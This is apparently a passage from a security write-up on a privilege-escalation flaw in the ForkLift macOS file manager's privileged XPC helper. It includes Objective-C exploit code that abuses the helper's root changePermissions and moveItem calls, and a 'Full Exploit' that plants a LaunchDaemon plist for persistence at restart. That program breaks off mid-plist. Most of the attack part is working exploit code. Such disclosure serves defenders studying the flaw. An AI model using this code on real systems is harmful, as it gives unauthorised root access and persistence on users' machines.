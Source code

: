 ```c
        }] changePermissions:@"/tmp/python_copied" permissions:2541 reply:^(NSError * err){
            NSLog(@"Reply, %@", err);
        }];
        
        NSLog(@"Done!");
    }
    return 0;
}
```

## LaunchAgent Exploitation
The second method to exploit this helper is as follows:

### Writing a new Launch Agent

Due to the XPC call ``moveItem`` it is possible to move any item as ``root``. Thus, it is possible to write a ``plist`` file to the ``/tmp`` directory and then copy it to the ``/Library/LaunchDaemons/`` directory. The following parameters are used for the ``moveItem`` function ``@"/tmp/com.sample.Load.plist" targetPath:@"/Library/LaunchDaemons/com.sample.Load.plist"``

### Full Exploit

The following code will automatically add a new launch agent which is triggered at a restart:

```c
//
//  main.m
//  build
//  gcc -framework Foundation exploit.m -o exploit
//

#import <Foundation/Foundation.h>

static NSString* kXPCHelperMachServiceName = @"com.binarynights.ForkLiftHelper";

// The protocol that Forklift will vend as its XPC API.
@protocol _TtP4main21ForkLiftHelperProtcol_
- (void)changePermissions:(NSString *)arg1 permissions:(long long)arg2 reply:(void (^)(NSError *))arg3;
- (void)changeOwner:(NSString *)arg1 owner:(long long)arg2 group:(long long)arg3 reply:(void (^)(NSError *))arg4;
- (void)calculateDirectorySize:(NSString *)arg1 reply:(void (^)(NSNumber *, NSError *))arg2;
- (void)createDirectory:(NSString *)arg1 reply:(void (^)(NSError *))arg2;
- (void)deleteItem:(NSString *)arg1 reply:(void (^)(NSError *))arg2;
- (void)moveItem:(NSString *)arg1 targetPath:(NSString *)arg2 reply:(void (^)(NSError *))arg3;
- (void)copyItemAbort:(NSString *)arg1;
- (void)copyItemProgress:(NSString *)arg1 reply:(void (^)(NSNumber *, NSError *))arg2;
- (void)copyItem:(NSString *)arg1 targetPath:(NSString *)arg2 UUID:(NSString *)arg3 reply:(void (^)(NSError *))arg4;
- (void)moveToTrash:(NSString *)arg1 reply:(void (^)(NSError *))arg2;
- (void)getHelperVersion:(void (^)(NSString *))arg1;
@end

int main(int argc, const char * argv[]) {
    @autoreleasepool {
        NSString* my_plist = @"<?xml version=\"1.0\" encoding=\"UTF-8\"?>"
        "<!DOCTYPE plist PUBLIC \"-//Apple Computer//DTD PLIST 1.0//EN\" \"http://www.apple.com/DTDs/PropertyList-1.0.dtd\">"
        "<plist version=\"1.0\">"
        "<dict>"
        "  <key>Label</key>"
        "  <string>com.sample.Load</string>"
        "  <key>ProgramArguments</key>"
```
